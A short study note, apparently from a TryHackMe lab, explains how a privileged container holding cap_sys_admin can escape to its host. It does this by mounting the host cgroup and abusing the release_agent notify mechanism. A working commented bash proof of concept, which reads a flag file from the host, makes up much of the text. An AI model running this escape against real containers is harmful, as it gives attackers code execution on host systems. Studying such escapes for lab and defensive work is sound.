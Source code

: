 If we have a privileged container, and we run `capsh --print` to see what capabilities we can have on the running container, we can get something like this: `Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid`, which means we can use the mount syscall (since we have cap_sys_admin) to mount the host's control groups into the container.

The steps are shown below, these steps are PoC steps taken from TryHackMe container vulnerabilities room:

```bash
# First we mount the cgroup of the host system:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# Then we tell the kernel to execute something once the "cgroup" finishes
echo 1 > /tmp/cgrp/x/notify_on_release
# Now we find container's files path on the host system
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Then we echo the host_path + /anything
echo "$host_path/exploit" > /tmp/cgrp/release_agent
# Now we create a file called "anything" which in this example is going to be "exploit"
# Make it a bash command, note that I added this file on /exploit but from host point of view it will be "$host_path/exploit"
echo '#!/bin/sh' > /exploit
# We added a command to the /exploit file that will cat a flag and echo it to the a file called flag.txt
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
# Make the exploit executable
chmod a+x /exploit
# This step should be done because the release_agent will execute the commands inside once it releases the cgroup, so we need to make a new process and since it is a quick process it will end soon and release_agent will be triggered to execute our code
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

The following figure illustrates how the notify_on_release is going to notify the release_agent of the root cgroup "The one we are mounting":

![](../../Attachments/Pasted%20image%2020240427011318.png)

Big Thanks for Edu for helping me to understand this.

Full PoC could be found at: `https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.`